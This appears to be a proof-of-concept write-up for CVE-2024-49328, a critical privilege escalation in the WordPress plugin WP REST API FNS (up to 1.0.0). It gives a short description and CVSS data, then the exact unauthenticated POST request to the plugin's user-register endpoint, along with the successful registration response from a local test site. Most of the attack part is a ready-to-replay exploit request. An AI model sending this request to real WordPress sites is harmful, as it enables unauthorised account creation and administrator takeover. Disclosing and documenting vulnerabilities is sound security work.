 # CVE-2024-49328
WP REST API FNS &lt;= 1.0.0 - Privilege Escalation

# Description:
The WP REST API FNS Plugin plugin for WordPress is vulnerable to privilege escalation in all versions up to, and including, 1.0.0. This makes it possible for unauthenticated attackers to gain administrator privileges.

```
CVE: CVE-2024-49328
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: rest-api-fns
```


POC
---

Request

```
POST /wp-json/api/v2/user/register HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/plugins.php?plugin_status=all&paged=1&s
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 57

{"email": "user@example.com", "password": "yourpassword"}
```

Response

```
HTTP/1.1 200 OK
Date: Wed, 06 Nov 2024 16:25:12 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.2.13
X-Robots-Tag: noindex
Link: <http://kubernetes.docker.internal/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Allow: POST
Content-Length: 191
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8

{"status":200,"message":"User Register Successfully","data":{"user_id":"7","user_email":"user@example.com","user_nicename":"userexample-com","user_fname":"","user_lname":"","profile_url":""}}
```
